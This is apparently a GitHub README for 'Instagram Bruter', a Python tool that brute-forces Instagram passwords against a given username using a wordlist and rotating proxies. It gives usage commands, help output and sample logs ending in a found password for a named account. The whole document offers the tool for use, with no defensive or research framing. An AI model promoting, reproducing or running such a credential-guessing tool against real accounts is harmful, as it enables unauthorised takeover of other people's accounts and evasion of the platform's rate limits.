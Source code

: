 # Instagram Bruter

Re-engineered to work **without** TOR

__Usage:__ `python instagram.py <username> <wordlist> <threads>`
<br>
**Example:** `python instagram.py Sami09.1 pass.lst 16`

### Requirements
- Python *v2.x* **|** *v3.x*
- ~~Kali Linux 2.0~~
- ~~TOR~~

### Help
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py -h
usage: instagram.py [-h] username wordlist threads

positional arguments:
  username    email or username
  wordlist    password list
  threads     password per seconds. Any number <= 16

optional arguments:
  -h, --help  show this help message and exit
```

### Start
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst 16
```

### Run
```
[-] Proxy-IP: 159.89.133.123[United States]
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 16
[-] Attempts: 16
[-] Proxies: 395
````

### Stop
```
[-] Proxy-IP: 167.99.12.149[United States]
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Attempts: 22
[-] Proxies: 394

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```